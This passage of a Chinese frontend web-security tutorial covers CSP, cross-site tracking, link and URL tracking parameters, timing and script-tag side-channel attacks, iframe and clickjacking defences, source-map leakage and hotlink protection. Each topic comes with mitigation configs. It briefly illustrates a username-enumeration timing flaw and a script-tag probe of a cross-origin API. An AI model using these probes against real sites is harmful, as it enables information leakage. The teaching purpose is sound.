new CspHtmlWebpackPlugin(
  {
    'script-src': ["'strict-dynamic'"],
    'style-src': "'self' 'unsafe-inline' 'unsafe-eval' <CDN域名>",
  },
  {
    primeReactEnabled: false,
    hashEnabled: { 'style-src': false },
    nonceEnabled: { 'style-src': false },
  }
)
```

注意，如果你使用 `html-webpack-tags-plugin` 插件来添加 Pre-fetch 和 Pre-load 标签，那么会和此插件起冲突，建议使用其他方式来解决  Pre-fetch 和 Pre-load 问题。

> 注意区分 CSP 中两种验证方式：
> `nonce` 方式需要 `<script>` 标签的 `nonce` 属性和 CSP 的此属性相匹配，它无法验证外部的 JS 文件是否被修改；
> `integrity` 方式则是验证外部资源的哈希值，当然也需要 CSP 中存在此属性且能对得上，这种方式可以应对 CDN 场景。


# 跨站跟踪

此部分内容适用于用户，不适用于开发者。
跨站跟踪最常见的例子是，广告的 SDK、嵌入式播放器的 SDK、社交媒体嵌入式分享按钮。

例如，某网站引入了淘宝广告的 SDK，那么用户访问此网站时，会请求淘宝的域名拉取广告，此时浏览器会带上淘宝的 Cookie，因此淘宝网可以获知用户的账号，并以此来返回匹配用户消费习惯的商品。

这种情况会导致第三方 SDK 具备对用户的 “跨站跟踪” 的能力。例如，如果很多网站都部署了淘宝网的 SDK，那么淘宝就能获知每个用户的访问记录，这个访问记录还会关联到用户的淘宝账号。
除了广告控件之外，还有例如 “分享到微博” 这类分享按钮，也是跨站跟踪的重灾区。

对于开发者而言，我们无法避免跨站跟踪。但作为用户，我们可以对浏览器进行配置，更好的保护隐私。
例如 Chrome 浏览器可以通过 `chrome://settings/cookies` 进入到 Cookie 设置界面：



这里就可以设置第三方 Cookie 的策略。

你也可以换用 Firefox 浏览器，对于隐私保护而言，它做的更加完善。
例如设置中就有的 “增强型跟踪保护”，如图：




## 扩展：链接防跟踪

对于带有 `target="_blank"` 的超链接而言，点击后会打开一个新页面，在新页面中，可以通过 `window.opener` 来获取前一个页面的 `window` 对象，此时就可以做出一些操作例如修改前页面的 URL，这种默认行为有很大的安全隐患。
此时，可以给链接带上 `rel="noopener"` 属性，这样用户在点击超链接打开新页面时，无法访问 `window.opener`，杜绝了上述问题。

自 2021 年开始，如果一个超链接未指定 `rel="opener"` 属性，那么它默认就是 `noopener` 的了。

使用 `window.open()` 打开窗口默认是有 `opener` 的，参考以下代码：

```js
// 默认有 opener
window.open('https://example.com', '_blank')

// 这种方式没有 opener
window.open('https://example.com', '_blank', 'noopener')
```

<br />

浏览器访问某个 URL 时，会在 HTTP 请求中添加名为 `Referer` 的字段，它表明访问的来源页面，也叫 “引荐来源”。
如果一个页面打开另一个页面，那么新页面中可通过 `document.referrer` 来查看来源页面的 URL，这显然不太好，会暴露用户的访问历史；同样的，即使新页面没有这个意图，但请求头中会带有 `Referer`，也会被服务器记录。

为了避免历史记录被第三方网站跟踪，超链接可以添加 `rel="noreferrer"`，此时浏览器就会避免上述这些行为了。

也可以使用 Referrer Policy 来避免跟踪，它直接作用于网站所有超链接，且支持更加精细化的配置方式，相关内容本文不再赘述，可以阅读 [阮一峰的文章](https://www.ruanyifeng.com/blog/2019/06/http-referer.html) 来了解。

一般来说超链接都是同时使用上面两个属性的，会写成 `rel="noreferrer noopener"` 这种格式。

<br />

这里额外讲一下，`rel="nofollow"` 注明一个超链接为外部链接，可被认为与本站是 “无关” 的，这一般适用于 SEO，它使得搜索引擎认为这个链接的网页和当前页面无关联，不计入外链；对用户端无影响。


## 扩展：资源 URL 跟踪

举个例子：有些人会在论坛上使用这种图片作为签名图：



这是因为此类论坛，允许用户提供 `` 标签作为图片内容，或允许输入 URL 作为图片内容，发布内容后，访问者只要加载这个图片，就会前往此 URL 拉取图片，这样服务器就可以根据 IP 和 UA 来渲染出图片。

<br />

再比如，QQ 邮箱等邮箱，提供了 “已读回执” 功能，但是邮件协议并不包含这种功能，这是如何实现的？

这是因为，这类邮件会在正文尾部插入一个 1 像素大小的透明的 PNG 图片，图片的 URL 就是 QQ 邮箱服务器的接口地址，收信人阅读邮件时接口被请求，此时就收到了已读回执。

假设恶意用户发送邮件时，图片的地址是一个服务器 URL，收信人阅读邮件时，其 IP 地址也会被服务器获取到。

<br />

开发者要考虑到上述这种情况，也就是说不能信任任何用户生成的图片资源。比较可行的方案是，由服务器中转，或者是由服务器缓存。

例如 iOS 的邮件服务、Gmail 等邮件服务会为用户转发图片 URL，避免收信用户的真实 IP 被暴露，但是只要是在用户点开邮件时就去请求图片 URL，那么已读回执这个功能并不受影响。

GitHub 也会对用户 README.md 中的图片资源进行缓存，以 `ramda` 举例：
其 README.md 文档中，引用了一张外部图片：



但是，在页面中展示的时候，会被替换为 GitHub 缓存过的图片：



可以看到图片的域名是 `camo.githubusercontent.com`，这是 GitHub 转存的图片，以此来避免用户访问源站地址从而泄露 IP、UA 等信息。


## 扩展：用户行为和关联追踪

此部分内容适用于用户，不适用于开发者。
举个例子，我们使用 bilibili 点开某个视频，观察 URL 栏：

```
https://www.bilibili.com/video/BV1fx411N7bU/?spm_id_from=333.999.0.0&vd_source=052deabb0bdd7cd5c3d922a654797c1f
```

可以看到，其中包含了 `spm_id_from` 和 `vd_source` 两个参数，而如果生成分享链接，则是这样的：

```
https://www.bilibili.com/video/BV1fx411N7bU/?share_source=copy_web&vd_source=f697ea9353bc0eadc23c2a0faf071271
```

其中则包含了 `share_source` 参数。

注意这个 `vd_source` 很可能包含了跟踪参数，例如关联到用户 ID，在分享之后可能帮助网站建立起用户关联。

<br />

淘宝的链接，参数则更多，但其中有用的只有一个 ID，大部分都是无用的，例如某个商品的链接：

```
https://chaoshi.detail.tmall.com/item.htm?ali_refid=a3_430582_1006:1607610186:H:j5FQNWHuY9IC14UmR/wDqw==:4027336e47e9384d8ae70c04b6371320&ali_trackid=282_4027336e47e9384d8ae70c04b6371320&id=549883938912&spm=a21n57.1.item.1&skuId=5036416315199
```

实际上，删减到这个程度仍然可以使用：

```
https://chaoshi.detail.tmall.com/item.htm?id=549883938912&skuId=5036416315199
```

多出来的参数则包含了关联到用户的 ID、点击行为等内容。

<br />

例如 QQ 好友发给我们的链接，点开后也会发现也会多出一段参数：

```
https://www.baidu.com/?qq-pf-to=pcqq.c2c
```

后面的 `qq-pf-to` 就是 QQ 加上的，也就是说，对于网站主而言我们访问的来源就这样被 QQ 给 “暴露” 了。

<br />

可以看到，很多网站和应用程序，会在 URL 中大量 “夹带私货”。

这些参数很多都是用于网站内部数据分析的，例如分析用户的浏览链路，分析商品的曝光情况等；但是，对于 “分享” 的场合，这个 URL 中的参数会使得网站建立起用户的关联，这对于隐私保护而言是很不利的。

<br />

Firefox 浏览器的 “增强型跟踪保护”，可以帮助用户自动删除 URL 中用于跟踪的字段。
此外，Firefox 地址栏的右键菜单，也包含了 “复制无跟踪参数链接” 这一选项：




# 旁路攻击

假设你的服务器使用以下方式判断用户是否存在：

```js
const user = await db.findUser(id)
if(!user) {
  throw new Error('请检查用户名和密码')
}
// 下行是耗时操作
const hashedPassword = await hashUtil(id, password)
if(user.password !== hashedPassword) {
  throw new Error('请检查用户名和密码')
}
// ...
```

如果这里的 `hashUtil()` 是耗时操作，那么恶意用户可以使用一种名为 “计时攻击” 的方法，通过比对响应时间，来判断用户名是否存在，从而导致信息泄露。

密码比对算法，也会存在这类问题，假设密码比对采用 “逐字符比较” 的方式，则恶意用户可能根据响应的时间分析出前几位密码是正确的，以此不断尝试来试探出真实密码，这也是一种 “计时攻击”。

计时攻击是一种后端需要考虑的问题，例如密码比对可以使用哈希比对，数据库查询时可以带上密码一起查询，返回流程也可以手动加扰，以此来控制响应返回时间。

<br />

但是，对于前端开发而言，有一种旁路攻击可以尝试用于突破 CORS 限制：
例如，某网站 `https://example.com` 不允许跨域，有一个敏感信息的接口 `https://example.com/api/userinfo`；
恶意用户可能利用 `<script>` 标签可以跨域的特性，构造以下代码：

```html
<script src="https://example.com/api/userinfo"></script>
```

或是

```html

```

此时，因为是尝试加载 JS，不存在跨域限制，所以浏览器可以发出请求和拿到结果，虽然数据不是 JS 文件，会引发报错，但是恶意用户可能会从错误中得知一些信息，例如根据响应的时间实现计时攻击，造成信息泄露。

<br />

浏览器已经部署了 [CORB（跨站资源阻塞）](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Cross-Origin_Resource_Policy) 来应对此类攻击。
具体而言，只要跨域请求的结果不符合请求的类型，例如通过 `<script>` 标签请求到了 JSON 这种情况，浏览器就会避免响应的信息被读取，将响应的内容替换为空，并从响应头中删除大部分 CORS 中规定的不安全的响应头。

浏览器综合检测响应的数据类型，利用 `Content-Type` 并嗅探检测响应的类型是否正确，如果触发了  CORB，还会避免内存或缓存读取任何响应结果的敏感内容。有关具体 CORB 的细节，可以阅读 [Chromium 的官方文档](https://chromium.googlesource.com/chromium/src/+/master/services/network/cross_origin_read_blocking_explainer.md)。


# iframe 安全

这里的 [`<iframe>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/iframe) 指两种方式：自己网站嵌入其他网站，以及自己网站被嵌入的情况。

自己网站使用 `<iframe>` 嵌入第三方网站时，此时需要注意第三方网站有可能通过代码来调用浏览器的一些 API，可能会影响当前源站。
例如：第三方网站可能会打开弹出窗口、启动全屏模式等；此时，可以使用其 [`sandbox`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/iframe#sandbox) 属性。

`<iframe>` 的 [`sandbox`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/iframe#sandbox) 属性，只要一开启，子页面的所有权限均默认被禁止，此时必须通过一些属性来开启权限。
例如：配置 `sandbox="allow-popups"` 时，子页面的大部分权限都被禁止，但是允许使用弹出式窗口打开新页面。

-----

自己的网站有可能被嵌入其他网站中，导致产生例如点击劫持等安全问题。

浏览器会根据网站文档 HTTP 响应或 `<meta>` 标签中的 `X-Frame-Options` 来确定当前网站被嵌入 `<iframe>` 时的行为，它有以下取值：

- `DENY`，表示禁止任何嵌入行为；
- `SAMEORIGIN`，表示仅允许同源网站嵌入；
- `ALLOW-FROM <网址>`，表示仅允许特定网站嵌入。

为了避免自己的网站被别人恶意嵌入，建议设置 `X-Frame-Options: DENY` 响应头。

<br />

如果浏览器比较老，不支持上面这个配置，那么可以使用以下 JS 来防止网页被嵌入：

```js
if (window.top !== window.self) {
  window.top.location = window.location
}
```

<br />

还有一种方式，是利用 [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors) 来配置；参考以下 CSP 配置项：

```
Content-Security-Policy: frame-ancestors 'none';
Content-Security-Policy: frame-ancestors 'self';
Content-Security-Policy: frame-ancestors 'self' https://example1.com https://example2.com;
```

上面这三种配置，分别表示：禁止任何网站嵌入此页面、仅允许同源网站（`'self'`）嵌入本页面、仅允许同源网站和 `https://example1.com`、`https://example2.com` 两个网站嵌入此页面。


# 源码泄露

这里的源码泄露并不是指源代码真的被外人拿到了，而是指恶意用户可以通过一些手段获取或推导出源代码。

最直观的情况是，源码未经处理直接使用，此时恶意用户直接下载网站资源，就能获得所有 JS。我认为这种情况，很可能是原生开发小程序忘记勾选代码混淆了，或者是早期的 jQuery 之类的站点。因为现在的 SPA 网站，JS 代码都会使用 Webpack 打包编译，源码会被混淆（因为 Webpack 调用了 [Terser](https://terser.org/) 或 [Uglify.js](https://github.com/mishoo/UglifyJS)），很难从生产代码中还原出源代码。

但是，Webpack 打包后的代码包含了 SourceMap，如果我们直接复制 `/build` 或者 `/dist` 目录到部署机器上，这样部署后所有的 SourceMap 都是可访问的，恶意用户可以解析出源代码。

一种方法是，CI/CD 时直接跳过复制 SourceMap 文件（后缀 `.map`）。

或者，可以关闭生产环境的 SourceMap 输出，对于 CRA 项目而言，配置 `GENERATE_SOURCEMAP=false` 变量或者把它写入 `.env`，对于 Vue 项目而言，配置 `productionSourceMap: false` 即可。

还有一种方式，是在 Nginx 配置中禁用 `.map` 后缀的文件，配置如下：

```nginx
location ~* \.map$ {
  allow 10.20.30.40;
  deny all;
}
```

这段配置只允许 IP 为 `10.20.30.40` 的客户端访问 `.map` 后缀的文件，把这个地址改成公司网络的公网 IP，即可实现只允许开发人员访问 SourceMap，方便定位线上错误，外部用户无法访问。

-----

还有一种情况，就是内网地址的泄露。
例如网站有一个预发布环境的配置，此时需要请求内网地址，这个内网地址需要写在代码里，此时打生产包就可能会把这个地址一起带上，导致泄露。

可以使用 `process.env.` 上的环境变量来标注当前是什么环境（启动时可使用 `dotenv` 来注入变量），使用 `if()` 进行环境的判断，决定是否启用内网地址；此时，打非当前环境的包时，Webpack 会自动删除这些条件无法满足的代码，避免内网地址被打包到生产环境。
例如：

```js
if(process.env.MODE === 'pre-prod') {
  // 非预发布场景打包时，这里面的代码会被剔除
}
```

-----

网站的依赖项，也有可能存在漏洞，出现严重漏洞时，恶意用户可能利用它来攻击网站。
因此，网站可能需要定期升级依赖包，以确保依赖包没有漏洞，避免被攻击。

GitHub 提供了 Dependency Review 机器人，可以执行 Actions 自动为我们检测存在漏洞的依赖项，并发布为 Issue；对于代码仓库，GitHub 提供了 “Security overview” 页面，可以配置自动检测漏洞、自动检测密钥泄露等，以此来提高源码的安全性。



即使不使用 GitHub，也可以使用类似 [OWASP Dependency-Check](https://owasp.org/www-project-dependency-check/) 的工具。


# 盗链

盗链是一种窃取 CDN 或对象存储服务流量的行为。

对于存储服务的防盗链，推荐将存储服务设置为私读私写，每次生成下载链接时，都生成带有时间戳和有效期的 URL，只允许用户在一段时间内下载。

图片资源和 JS 库资源的防盗链，建议在 CDN 厂商处配置域名白名单；
如果你没有使用 CDN，则可以配置 Nginx，给出一个图片防盗链的配置：

```nginx
location ~* \.(gif|jpg|jpeg|png|bmp|webp)$ {
  valid_referers none blocked *.your-domain.com server_names;

  # 如果验证不通过则返回 403
  if ($invalid_referer) {
    return 403;
  }
}
```

